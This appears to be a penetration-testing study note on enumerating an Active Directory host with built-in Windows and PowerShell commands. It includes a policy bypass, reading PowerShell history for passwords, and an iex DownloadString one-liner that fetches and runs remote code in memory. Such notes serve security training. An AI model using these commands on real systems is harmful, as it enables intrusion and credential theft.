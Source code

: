 ## Scenario
AD environment from a managed host with no internet access, and all efforts to load tools onto it have failed.

what type of enumeration are possible ? <> `stealthy approach and may not create as many log entries and alerts as pulling tools into the network in previous sections`

## stage-1 basic enum
#### Basic Enumeration Commands

| **Command**                                             | **Result**                                                                                 |
| ------------------------------------------------------- | ------------------------------------------------------------------------------------------ |
| `hostname`                                              | Prints the PC's Name                                                                       |
| `[System.Environment]::OSVersion.Version`               | Prints out the OS version and revision level                                               |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn` | Prints the patches and hotfixes applied to the host                                        |
| `ipconfig /all`                                         | Prints out network adapter state and configurations                                        |
| `set`                                                   | Displays a list of environment variables for the current session (ran from CMD-prompt)     |
| `echo %USERDOMAIN%`                                     | Displays the domain name to which the host belongs (ran from CMD-prompt)                   |
| `echo %logonserver%`                                    | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt) |
| `systeminfo`                                            |                                                                                            |


## EMPLOY PowerShell


Let's look at a few of the ways PowerShell can help us.

| **Cmd-Let**                                                                                                                |
| -------------------------------------------------------------------------------------------------------------------------- |
| `Get-Module`                                                                                                               |
| `Get-ExecutionPolicy -List`                                                                                                |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                |
| `Get-ChildItem Env: \| ft Key,Value`                                                                                       |
| `Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`                                 |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` |


| **Description**                                                                                                                                                                                                                               |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Lists available modules loaded for use.                                                                                                                                                                                                       |
| Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.                                         |
| This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                |
| With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       |
| This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |
Let's see them in action now on the `MS01` host.

